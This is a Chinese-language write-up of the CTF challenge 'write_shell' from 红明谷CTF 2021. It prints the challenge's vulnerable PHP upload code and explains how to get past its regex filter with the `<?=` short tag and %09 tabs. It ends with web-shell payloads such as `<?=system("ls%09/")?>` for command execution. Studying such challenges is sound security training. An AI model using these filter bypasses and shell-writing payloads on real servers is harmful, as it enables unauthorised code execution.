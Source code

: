 # \[红明谷CTF 2021]write\_shell

## \[红明谷CTF 2021]write\_shell

## 考点

* `<?`写shell
* %09绕过空格

## wp

给了代码

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
function check($input){
    if(preg_match("/'| |_|php|;|~|\\^|\\+|eval|{|}/i",$input)){
        // if(preg_match("/'| |_|=|php/",$input)){
        die('hacker!!!');
    }else{
        return $input;
    }
}

function waf($input){
  if(is_array($input)){
      foreach($input as $key=>$output){
          $input[$key] = waf($output);
      }
  }else{
      $input = check($input);
  }
}

$dir = 'sandbox/' . md5($_SERVER['REMOTE_ADDR']) . '/';
if(!file_exists($dir)){
    mkdir($dir);
}
switch($_GET["action"] ?? "") {
    case 'pwd':
        echo $dir;
        break;
    case 'upload':
        $data = $_GET["data"] ?? "";
        waf($data);
        file_put_contents("$dir" . "index.php", $data);
}
?>
```

给了沙盒路径，访问`?action=pwd`就可以看到

![](<../.gitbook/assets/image (6).png>)

然后`?action=upload&data=`是将data写入到沙盒中，访问`sandbox/cc551ab005b2e60fbdc88de809b2c4b1/index.php`就可以看到

要写shell有三种方式，如下

* \<?php
* \<?=要开启short\_open\_tag
* \<script language="php">在PHP7之后就不能用了

在返回头看到PHP版本为7.0，且在check函数中过滤了很多字符

```
/'| |_|php|;|~|\\^|\\+|eval|{|}/i
```

这样就只剩下了`<?=`这种方式，请求`?action=upload&data=%3c%3f%3d123456%3f%3e`，再访问沙盒的index.php，是可以输出123456，过滤了`~`，不能取反绕过。然后构造正常的shell就可以

```
?action=upload&data=<?=system("ls")?>
// 过滤了空格，使用%09绕过
?action=upload&data=<?=system("ls%09/")?>
```

![](<../.gitbook/assets/image (25).png>)

## 小结

1. 这里尝试了无参RCE，发现个很奇怪的东西，在去读请求头的时候，出来个http，`?action=upload&data=<?=end(getallheaders())?>`，不论怎么改请求头都是这个http
